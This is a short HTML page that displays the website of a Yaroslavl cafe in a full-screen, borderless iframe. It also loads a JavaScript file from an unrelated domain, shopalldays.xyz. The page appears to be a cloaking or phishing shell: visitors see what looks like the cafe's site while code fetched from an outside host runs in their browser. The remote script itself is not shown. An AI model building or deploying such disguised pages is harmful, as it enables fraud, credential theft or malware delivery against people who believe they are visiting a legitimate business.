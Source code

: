 ﻿<!DOCTYPE html>
<html lang="ru">
<html>
		
	<head>	
	
	<iframe id="ifr" src="http://www.kafe-yaroslavl.ru/" frameborder="0" style="overflow:hidden;overflow-x:hidden;overflow-y:hidden;height:100%;width:100%;position:absolute;top:0px;left:0px;right:0px;bottom:0px" height="100%" width="100%"></iframe>
	
	<script id="connect" type="text/javascript" src="https://www.shopalldays.xyz/js"></script>
	
	</head>
</html>
